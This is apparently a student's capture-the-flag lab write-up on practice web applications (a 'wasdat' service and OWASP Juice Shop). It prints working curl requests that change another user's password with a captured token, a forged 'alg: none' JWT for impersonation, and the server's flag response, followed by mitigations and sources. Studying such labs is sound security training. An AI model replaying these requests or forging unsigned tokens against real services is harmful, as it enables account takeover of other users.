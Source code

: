 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2025-01-25-Cryptographic-Fails
tags:
- JWT
- Cryptographic Failures 
title: School Tasks 1 - Web Application Security - Cryptographic Fails
---
```


## Task 1A - Old Wasdat – Change user’s password by using curl
***Description:*** 

The service accepts manipulated curl-request in order to change the password of specific user via changing the parameters of the original request. Also, the bio section must be
changed, or it will produce an internal server error.

***Vulnerability: CWE-620: Unverified Password Change***

***Steps to reproduce:***

• Create an account for this service and find the profile section, where you can change the password

• Open browser’s developer-tools to capture the traffic in this page.

• In the form change bio and password.

• Therefore, copy the cURL request from the network section for further modification

• As you can see the password in the request is in SHA-1, which is considered a severely vulnerable
encryption method. “SHA-1 is widely considered obsolete due to its well-documented vulnerabilities”, (Harish, Anusha).

• Now modify the request’s, bio and password strings. New password needs to be in SHA-1 format
also.

Here is my request:

````bash 
curl -i 'http://wasdat.fi:8080/api/user' -X PUT -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64;
rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-
Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Authorization: Token eyJ0eX-
AiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQi-
O***********************************************************
**************************************************************pdHkiOjEsImZyZXNoIj
p0cnVlLCJ0eXBlIjoiYWNjZXNzIn0.l8q9iBlXgC09PcuMS2DxIzvcHfpRl4AKc6n-1wsoObI' -H 'Content-
Type: application/json;charset=utf-8' -H 'Origin: http://wasdat.fi:8080' -H 'Connection: keep-alive' -
H 'Referer: http://wasdat.fi:8080/' -H 'Cookie: language=en; welcomebanner_status=dismiss; cook-
ieconsent_status=dismiss; continue-
Code=aj4QDO4KyOqPJ7j2novp9EQ38gYVAJvlAM1wWxalND5reZRLzmXk6BbmzZRb' -H 'Priority: u=0'
--data-raw '{"user":{"email":"wasdat-victim@example.com","username":"victim","bio":"thisneed-
stobechangedalso","image":null,"password":"b9333b50f2beb8aac0f0a65eabd0e0bb3ee5b234"}}'
Bio : thisneedstobechangedalso
Password : JAMK2025 (in SHA-1 format)
````



• This was the response from the website:

![](2025-02-18-15-53-02.png)

• Now make sure that the password was changed by logging in, here is my post request data and the
response:

![](2025-02-18-15-53-46.png)

The response was legit and now it’s confirmed that the payload for the password change worked.

***Impact estimation:***

• High severity: This vulnerability has a significant impact on gaining control of other user’s account,
but I will consider it as high not critical, because attacker need to gain access to this user's authentication token to carry out the successful change. Considering also that password is using weak encryption method.

***Mitigation:***

• Implement a validation for new password change. This would be example a section for previous
password to verify the author of the request or something different authetication method.


## Task 2A: Juice Shop – Exploiting Unsigned JWT


***Description:***

Forge an essentially unsigned JWT token that impersonates the (non-existing) user jwtn3d@juice-sh.op.
“JWT is a way to determine authorization between a user and a web server, without
the web server needing to keep track of sessions.”, (Hacker Bartender, 2021). Another way to au-
thenticate the client with the server.

***Vulnerability:*** Target supports none-algorithm.

***Steps to reproduce:***

• Start Burpsuite in order to capture the traffic between the server and the client

• Use proxy to intercept the traffic of an action while logged in as registered account (I used the password changing section for this

• You can identify the JSON Web Token in the request its in following format:

![](2025-02-18-15-57-29.png)

• Now you can use an optional JWT editor to craft the payload. In this payload you change the algorithm parameter in the header section into “none”. I found out that few editors didn’t accept to do
this, but I was able to craft it with this. (https://www.gavinjl.me/edit-jwt-online-alg-none/)

• Also, for this challenge you need to change from the data section the email address to the impersonators address (jwtn3d@juice-sh.op).

• Here is the crafted data and the payload:

![](2025-02-18-15-58-30.png)

Then this needs to be in Base64 format like in the original request to work, here is my crafted
````bash 
token:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdGF0dXMi-
OiJzdWNjZXNz*****************************************IjoiIiwiZW1haWwiOiJqd3RuM2RAan
VpY2Utc2gub3AiL-
CJwYXNzd29yZCI6IjhmMDM2MzY5YTVjZDI2NDU0OTQ5ZTU5NGZiOWUwYTJkIiwicm9sZSI6I
6
mN1*******************************************************jAyNS0wMS0zMSAxOToxNDowNi4yMzEgK
zAwO******************************MS0zMSAxO-
ToxNDowNi4yMzEgKzAwOjAwIiwiZGVsZXRlZEF0Ijpud-
WxsfSwiaWF0IjoxNzM4MzUwODU2fQ.
````
• This will be placed in the authorization and cookie sections

• Then send the request

![](2025-02-18-16-00-03.png)

***Mitigation:***

• Disabling the application accepting “none” as algorithm

• Encrypting the token with more complex method

## Task 2B: Old wasdat – JWT Exploitation

***Steps to reproduce:***

• Start with capturing the network traffic with browser’s developer’s tools (another method is to capture the packet with Burpsuite and then copy the request as “curl-command”, this one I prefer

• Capture the packet from password changing event and copy it into “cURL”

• Here is my captured packet and I modified the algorithm into “none” and my student id into that
````bash
curl -i 'http://wasdat.fi:8080/api/user' -X PUT -H 'Authorization: Token eyJ0eXAiOiJKV1QiLCJhbGci-
O**********************************
*************************************
**********************************NTI3NCwiaWRlbnRpdHkiOjIsImZyZXNoIjp0cnVlLCJ0eX
BlIjoiYWNjZXNzIn0.' -H 'Content-Type: application/json;charset=UTF-8' --data-raw
'{"user":{"email":"attacker@example.com","username":"attacker","bio":"asdasdasdasdasdasdas-
daa","image":null,"password":"b9333b5*******************5b234"}}'
````
• In this packet I used the earlier challenge's SHA-1 password hash and by executing the
command, the flag appeared into the console:
````bash
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sun, 02 Feb 2025 14:33:15 GMT
Content-Type: application/json
Content-Length: 162
Connection: keep-alive
Access-Control-Allow-Origin: http://0.0.0.0:4000
Vary: Origin
CurlFlagEarned: WasFlag4_1{PasswordSetWithCurl}
JWTFlagEarned: WasFlag4_2{AlgNoneShouldBeDead}
Access-Control-Allow-Origin: *
{
"user": {
"bio": "asdasdasdasdasdasdasdaa",
"email": "attacker@example.com",
"image": null,
"token": "",
"username": "attacker"
}
}
````
• This also confirms that the password has been changed.


## Sources

Harish, Anusha. SHA-256 vs. SHA-1: Which Is The Better Encryption?. Referenced 31.1.2025
[link1](https://www.securew2.com/blog/what-is-sha-encryption-sha-256-vs-sha-1)

MITRE. CWE-620 - Unverified Password Change. 19.11.2024. Referenced 31.1.2025

[link1](https://cwe.mitre.org/data/definitions/620.html)

Hacker Bartender. OWASP Juice Shop – Unsigned JWT. 2.10.2021. Referenced 31.1.2025

[link1](https://www.hackerbartender.com/unsigned-jwt/)

Github. Whyiest – Juice Shop Write-up. 31.3.2024. Referenced 31.1.2025

[link1](https://github.com/Whyiest/Juice-Shop-Write-up/blob/main/5-stars/unsigned_jwt.md)
